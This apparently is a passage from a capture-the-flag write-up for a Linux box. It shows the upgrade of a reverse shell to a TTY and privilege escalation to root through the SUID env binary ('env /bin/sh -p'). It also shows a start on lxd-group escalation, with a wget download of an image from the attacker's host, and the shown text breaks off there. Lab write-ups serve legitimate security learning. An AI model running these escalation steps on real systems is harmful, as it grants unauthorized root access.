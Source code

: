 ```console
bash: cannot set terminal process group (1572): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$
```
now let spawn at TTY shell.
```console
namelessone@anonymous:~$ python -c 'import pty; pty.spawn("/bin/sh")'
$ id 
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
not that we cant run `sudo -l` since we dont have namelessone's password


There is 2 way to root this server
1. with [SUID](#root-with-suid)
2. with [lxd](#root-with-lxd)

# root with SUID
this way is easier that with lxd, so what do we do? Yes use amazing tool cal `suid3num.py` !! tranfer the script/tool to the victim server and run it
```

[#] SUID Binaries in GTFO bins list (Hell Yeah!)
------------------------------
/usr/bin/env -~> https://gtfobins.github.io/gtfobins/env/#suid
```
yep we can use `env` to escalate priv. check GTFObins for more info (the link). So what let run it
```console
$ env /bin/sh -p
env /bin/sh -p
# whoami
whoami
root
# cat /root/root.txt
```
# root with lxd
*namelessone* is a user of group `lxd` and we can use it to escalate priv. how to do that? you need to read more about it [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation) or [here](https://reboare.github.io/lxd/lxd-escape.html)..

let do it then.
```console
$ which wget
which wget
/usr/bin/wget
$ wget http://10.11.14.220:8000/alpine-v3.12-x86_64-20200728_1308.tar.gz
wget http://10.11.14.220:8000/alpine-v3.12-x86_64-20200728_1308.tar.gz
--2020-08-08 14:52:09--  http://10.11.14.220:8000/alpine-v3.12-x86_64-20200728_1308.tar.gz
Connecting to 10.11.14.220:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3198971 (3.0M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20200728_1308.tar.gz’

alpine-v3.12-x86_64 100%[===================>]   3.05M   993KB/s    in 3.1s    

2020-08-08 14:52:12 (993 KB/s) - ‘alpine-v3.12-x86_64-20200728_1308.tar.gz’ saved [3198971/3198971]

$ lxc image import alpine-v3.12-x86_64-20200728_1308.tar.gz --alias kurohat
lxc image import alpine-v3.12-x86_64-20200728_1308.tar.gz --alias kurohat
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first container, try: lxc launch ubuntu:18.04
```